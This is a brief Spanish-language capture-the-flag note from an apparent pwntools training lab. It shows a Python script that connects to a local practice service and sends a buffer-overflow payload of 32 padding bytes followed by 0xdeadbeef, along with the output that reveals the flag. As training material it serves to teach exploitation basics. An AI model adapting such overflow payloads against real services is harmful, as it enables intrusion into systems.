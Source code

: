 # Networking

- Un exploit de conexión a red y se manda 

```
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/networking$ cat exp.py 
from pwn import *
connect = remote('127.0.0.1', 1337)
print(connect.recvn(18))
payload = 'A' * 32
payload += p32(0xdeadbeef)
connect.send(payload)
print(connect.recvn(34))
```

- se ejecuta para obtener la bandera

```
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/networking$ python exp.py 
[+] Opening connection to 127.0.0.1 on port 1337: Done
Give me deadbeef: 
Thank you!
flag{n3tw0rk!ng_!$_fun}
[*] Closed connection to 127.0.0.1 port 1337
```